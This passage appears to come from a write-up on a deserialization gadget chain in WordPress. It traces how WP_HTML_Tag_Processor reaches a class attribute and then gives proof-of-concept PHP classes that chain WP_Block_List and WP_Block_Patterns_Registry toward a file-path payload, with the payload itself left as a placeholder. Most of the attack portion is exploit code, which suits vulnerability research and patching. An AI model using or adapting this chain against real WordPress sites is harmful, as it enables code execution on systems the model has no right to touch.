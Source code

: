 ```php

    /*
     * 1. Apply the enqueued edits and update all the pointers to reflect those changes.
     */
    $this->class_name_updates_to_attributes_updates();

...
```

Next is `class_name_updates_to_attributes_updates`

```php
private function class_name_updates_to_attributes_updates(): void {
    if ( count( $this->classname_updates ) === 0 ) {
        return;
    }

    $existing_class = $this->get_enqueued_attribute_value( 'class' );
    if ( null === $existing_class || true === $existing_class ) {
        $existing_class = '';
    }

    if ( false === $existing_class && isset( $this->attributes['class'] ) ) {
        $existing_class = substr(
            $this->html,
            $this->attributes['class']->value_starts_at,
            $this->attributes['class']->value_length
        );
    }

...
```

From now, we can easily see that it will calles `$this->attributes['class']` and if we set `attributes` to `WP_Block_List`, gadget chain starts

```php
class WP_Block_Patterns_Registry{
    public $registered_patterns = array('hehe' => array('filePath' => <payload>;
}

class WP_Block_List{
    public function __construct( $blocks, $available_context = array(), $registry = null ) {
		$this->blocks            = $blocks;
		$this->available_context = $available_context;
		$this->registry          = $registry;
	}
}

class WP_HTML_Tag_Processor{
    public $html = 'huhu';
    public $parsing_namespace = 'html';
    public $attributes = array();
    public $classname_updates = [1];
    public function __construct($attributes){
        $this->attributes = $attributes;
    }
}

$b = array("blockName" => "hehe");
$c = new WP_Block_Patterns_Registry();
$a = new WP_Block_List(array("class" => $b),"2",$c);
$d = new WP_HTML_Tag_Processor($a);
```
